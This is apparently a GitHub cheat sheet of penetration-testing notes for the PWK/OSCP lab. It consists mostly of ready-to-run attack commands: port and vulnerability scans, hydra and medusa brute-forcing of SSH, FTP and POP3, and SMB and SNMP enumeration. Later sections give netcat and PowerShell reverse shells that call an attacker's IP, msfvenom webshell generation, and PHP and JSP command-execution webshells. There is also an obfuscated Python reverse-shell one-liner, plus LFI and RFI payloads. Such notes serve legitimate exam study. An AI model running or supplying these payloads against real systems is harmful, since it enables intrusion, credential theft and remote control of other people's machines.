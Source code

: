 ## automate VPN
creating txt file to automate vpn authentication
```sh
tar xvzf file.tar.gz  
echo 'OS-#####' > cred.txt  
echo ' #######' >> cred.txt  
vi auth-user-pass cred.txt  
openvpn OS-####-PWK.ovpn 
```

## Default Nmap Scanning<br />
```sh
nmap -sU -sV -n --top-ports 200 192.168.1.30  > /root/PWK-Lab/192.168.1.30/nmap-udp<br />
nmap -sT -sV -A -O -v -p 1-65535 192.168.1.30 > /root/PWK-Lab/192.168.1.30/nmap-tcp<br />
```
-sS stealth scanning<br />
```sh
nmap -vv -Pn -A -sC -sS -T 4 -p- 10.x.x.x<br />
nmap -p- -sS -A 10.x.x.x<br />
```
Vulnerability Scanning :  ``` nmap -sS -sV --script=vulscan/vulscan.nse 10.x.x.x ```<br />
OS detection :  ``` nmap -O -v 10.x.x.x ```<br /><br />

Automated scanning tools<br />
[Reconnoitre : ](https://github.com/codingo/Reconnoitre)
```python /root/Recon/Reconnoitre/reconnoitre.py -t 10.x.x.x -o /root/PWK-Lab/10.x.x.x/ --services``` <br />
[OneTwoPunch : ](https://github.com/superkojiman/onetwopunch)
```vi targets.txt; onetwopunch.sh -t targets.txt -p all -n "-sV -O --version-intensity=9" ```<br />

unicornscan -i tap0 -I -mT 10.x.x.x:a <br />
masscan -p0-65535 10.x.x.x --rate 150000 -oL output.txt <br />

## Scanning per protocols...
## - **SSH(22)** <br />
Bruteforce : <br />
```sh
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=users.txt --script-args ssh-brute.timeout=4s 10.x.x.x 
hydra -l user -P /usr/share/wordlists/rockyou.txt  10.x.x.x ssh -t 4
```
ref : https://github.com/g0tmi1k/debian-ssh  && https://blog.g0tmi1k.com/2010/04/pwnos/ <br />
OpenF*** (Apache mod_ssl < 2.8.7 OpenSSL) 764.c <br />

## - **FTP(21)** <br />
Default cred : anonymous/anonymous | ftp/ftp | ftpuser|ftpuser<br />

```sh
nmap -sV -Pn -vv -p 21  --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 10.x.x.x
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.x.x.x
check windows OS files : https://www.quora.com/How-can-I-tell-what-version-of-Windows-is-installed-on-a-hard-drive-without-booting-it 
```
Bruteforce : <br />
```sh
medusa -h 10.x.x.x -u user -P /root/SecLists/Passwords/bt4-password.txt -M ftp 
./root/PWK-Lab/FTP/ftp-user-enum-1.0/ftp-user-enum.pl -U /root/PWK-Lab/fuzzdb/bruteforce/names/simple-users.txt -t 10.x.x.x" 
```

## - **SMTP(25)**<br />
**vulnerability check** <br />
```sh 
nmap --script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.x.x.x 
```
**enumerating users** <br />
```sh 
nmap --script smtp-enum-users.nse 10.x.x.x

smtp-user-enum -M VRFY -U users.txt -t 10.x.x.x
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 10.x.x.x
smtp-user-enum -M VRFY -U  /usr/share/seclists/Usernames/Names/names.txt -t 10.x.x.x
```
connecting to mailsvr: <br />
```sh 
telnet IPADDRESS 25
nc -nvv IPADDRESS 25
```
msf module : auxiliary/scanner/smtp/smtp_enum<br />

## -  **POP3(110)**<br />
**Bruteforce** : ```hydra -L usr.txt -P /usr/share/wordlists/fasttrack.txt -t20 10.x.x.x -s55007 -I pop3```<br />

POP3 command
```sh 
USER boris
PASS *****
LIST 
RETR 1 
```

## -  **SNMP(161)**<br />
**Default Community Strings** : public/private/manager<br />

```sh 
snmp-check -t [IP] -c public 
snmpwalk -c public -v1 10.0.0.0 
nmap -sU --open -p 161 10.11.1.0/24 -oG mega-snmp.txt 
sudo nmap -sU -p 161 --script default,snmp-sysdescr 10.11.1.0/24 
onesixtyone -c community -i ips 
```
cf. for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips<br />
```sh 
nmap 10.11.1.* -p161 --open -oG - | awk '/161\/open/{print $2}' 
```

 
## -  **SMB(139,445)**<br />
Checking SMB port open/running : 
```sh 
nmap -A -p 139,445 10.11.1.1-254 -oG smb_service.txt; grep Up smb_service.txt | cut -d "" "" -f 2  
nmap 10.11.1.* -p139,445 --open -oG - | awk '/139\/open.*445\/open/{print $2}'  
```
**vulnerability scanning** : ```nmap -p 139,135,445 -vv --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.x.x.x```

**enumerating users** : ```nmap --script smb-enum-users.nse -p445 10.x.x.x  ```
```nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 10.x.x.x  ```


**smbclient**<br />
```sh 
smbclient -L //10.x.x.x/share -U user 
smbclient //10.x.x.x//IPC$ -N  
```
**checking access** <br />
```sh 
acccheck -v -t 10.x.x.x  -u user -P /usr/share/dirb/wordlists/common.txt  
acccheck -v -t 10.x.x.x -U /root/Vulnhub/Stapler/user.txt  -P /usr/share/dirb/wordlists/common.txt  
```
**smbmap**<br />
```sh 
smbmap -u user -p user -d share -H 10.x.x.x  
smbmap -u user -p .bash_history -d share -H 10.x.x.x  
smbmap -H 10.x.x.x\share -u user -p '.bash_history' -L  
```
ref : https://hackercool.com/2016/07/smb-enumeration-with-kali-linux-enum4linuxacccheck-smbmap/<br />


## MISC

- metasploit issue : <br />
sudo apt-get update <br />
service postgresql restart <br />
msfdb reinit  <br />
cf : https://github.com/rapid7/metasploit-framework/issues/9556 <br />

<br />

## Windows Shell
```sh 
//Non-Staged :  (windows/shell_reverse_tcp) && nc -nlvp 443
//Staged     : (windows/shell/reverse_tcp) && use exploit/multi/handler
```

**-netcat**
```sh 
//Windows(Victim) : nc.exe 10.11.0.69 4444 -e cmd.exe
//eg. C:\Inetpub\Scripts\nc.exe -nv 10.11.0.45 1234 -e C:\WINDOWS\System32\cmd.exe
//Kali(Attacker) : nc -nlvp 4444
```
**-Creating Webshell**
```sh 
ASP : msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.45 LPORT=2323 -f asp -a x86 --platform win -o shell.asp
      
JSP : msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.42 LPORT=4444 -f raw > shell.jsp
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
      
PHP : <?php echo passthru($_GET['cmd']); ?>
      <?php echo shell_exec($_GET['cmd']); ?>
```
ref : https://netsec.ws/?p=331

**-Python Oneliner ReverseShell on CMD**  *Make sure updating IP address and Port. *
```sh 
C:\Python26\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.*.*.*', ***)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
```sh 
powershell -exec bypass -c Import-Module .\Invoke-PowerShellTcp.ps1;Invoke-PowerShellTcp -Reverse -IPAddress 10.*.*.* -Port ****
```
ref : https://github.com/samratashok/nishang<br />

**Powershell location**<br />
```sh 
-32-bit (x86) PowerShell executable C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe  
-64-bit (x64) Powershell executable C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe  
```

## Local File Inclusion (LFI) 
Put files locally on the target and trigger webshell by browsing the page. <br />
```sh 
http://target.com/?page=home
http://target.com/?page=./../../../../../../../../../etc/passwd%00
```
eg. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion <br />

## Remote File Inclusion (RFI) 
Browse a remote page and trigger (remote) webshell page. <br />
```sh 
http://target.com/?page=http://attackerIP/evil.txt%00
```


